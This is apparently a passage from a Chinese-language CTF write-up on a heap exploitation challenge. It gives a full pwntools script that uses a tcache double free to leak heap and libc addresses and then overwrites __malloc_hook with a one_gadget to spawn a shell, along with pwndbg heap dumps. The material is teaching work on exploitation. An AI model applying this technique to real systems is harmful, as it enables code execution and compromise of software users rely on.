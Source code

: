 ```python
    p.sendlineafter('idx?', str(index))

new(0x50) #0
delete(0)
delete(0)
show(0)
heap_base = u64(p.recvuntil('\n', drop = True).ljust(8, '\x00'))
print hex(heap_base)
new(0x50) #1
edit(1, p64(heap_base - 0x250))
new(0x50) #2
new(0x50) #3
edit(3, 'a' * 0x28)
delete(3)
show(3)
libc_base = u64(p.recvuntil('\n', drop = True).ljust(8, '\x00')) - 0x3ebca0
print hex(libc_base)
malloc_hook = libc_base + libc.sym['__malloc_hook']
realloc = libc_base + libc.sym['__libc_realloc']
one_gadget=[0x4f365,0x4f3c2,0x10a45c]
one = libc_base + one_gadget[2]
new(0x50)
edit(4, 'b' * 0x48 +  p64(malloc_hook - 0x13))
new(0x20)
edit(5, '\x00' * (0x13 - 0x8) + p64(one) + p64(realloc + 8))
new(0x10)
p.sendline('ls')
p.interactive()
```

## 泄露堆地址
由于程序开启了PIE保护，因此首先我们利用tcache_bin_attack中的Tcache dup漏洞对创建的堆块进行多次free，打印堆块内容是就会打印出heap地址：

```python
new(0x50) #0
delete(0)
delete(0)
show(0)
heap_base = u64(p.recvuntil('\n', drop = True).ljust(8, '\x00'))
print hex(heap_base)
```

执行此段payload后：

```c
pwndbg> heap
Allocated chunk | PREV_INUSE
Addr: 0x555555757000
Size: 0x251

Free chunk (tcache) | PREV_INUSE
Addr: 0x555555757250
Size: 0x61
fd: 0x555555757260

Top chunk | PREV_INUSE
Addr: 0x5555557572b0
Size: 0x20d51

pwndbg> x/100gx 0x555555757000
0x555555757000:	0x0000000000000000	0x0000000000000251 #tcache_perthread_struct
0x555555757010:	0x0000000200000000	0x0000000000000000
.......(省略内容均为空)
0x555555757070:	0x0000555555757260	0x0000000000000000
```